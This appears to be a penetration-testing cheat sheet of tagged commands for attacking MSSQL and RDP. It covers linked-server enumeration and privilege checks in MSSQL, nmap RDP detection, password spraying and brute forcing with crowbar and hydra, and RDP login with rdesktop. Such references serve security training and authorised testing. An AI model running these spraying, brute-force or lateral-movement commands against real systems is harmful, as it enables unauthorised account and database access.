 
## attacking common services - mssql - communicate with other databases
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
Step 1 identify linked servers. 1 = remote server:

SELECT srvname, isremote FROM sysservers
go

Step 2 identify user for the connection and its privileges (note: be careful with the quotes on the server's name if needed):

EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [<remote\Server>]
go
```

## attacking common services - rdp - nmap rdp detection
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nmap -Pn -p3389 <ip>
```

## attacking common services - rdp - rdp password spraying crowbar
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
crowbar -b rdp -s <ip>/<Netmask> -U <usersFile> -c '<password2spray>'
```

## attacking common services - rdp - rdp password spraying hydra
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
hydra -L <usersList> -p '<password2spray>' <targetIP> rdp
```

## attacking common services - rdp - rdp brute
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
hydra -<Ll> <users> -<Pp> <pass> <targetIP> rdp
```

## attacking common services - rdp - rdp login rdesktop
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
rdesktop -u <username> -p <password> <targetIP>
```
